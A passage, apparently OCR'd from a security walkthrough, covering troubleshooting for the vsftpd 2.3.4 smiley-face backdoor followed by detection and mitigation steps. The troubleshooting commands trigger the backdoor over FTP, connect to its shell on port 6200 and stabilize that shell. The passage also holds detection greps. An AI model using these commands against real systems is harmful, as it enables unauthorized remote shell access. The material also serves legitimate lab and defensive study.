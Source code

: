 #### Issue 1: Backdoor doesn't trigger
```bash
# Verify the exact version
nc <target-ip> 21
# Must show: 220 (vsFTPd 2.3.4)

# Try different username formats
USER user:)
USER admin:)
USER test:)
```

#### Issue 2: Port 6200 connection refused
```bash
# Check if port is actually open after triggering
nmap -p 6200 <target-ip>

# Try connecting multiple times
nc <target-ip> 6200
# Wait a few seconds and try again
```

#### Issue 3: Shell is unstable
```bash
# Use different shell stabilization methods
python -c "import pty;pty.spawn('/bin/bash')"
# or
script /dev/null -c bash
# or
exec bash -i
```

---

## 🔍 Detection and Mitigation

### Detection Methods
```bash
# Network-based detection
# Monitor for connections to port 6200
netstat -tulpn | grep 6200

# Log analysis
grep ":)" /var/log/vsftpd.log
grep "6200" /var/log/auth.log

# Process monitoring
ps aux | grep vsftpd
lsof -i :6200
```

### Mitigation Strategies
1. **Immediate Actions:**
   - Upgrade vsftpd to latest version (3.x+)
   - Block port 6200 at firewall level
   - Disable FTP if not required
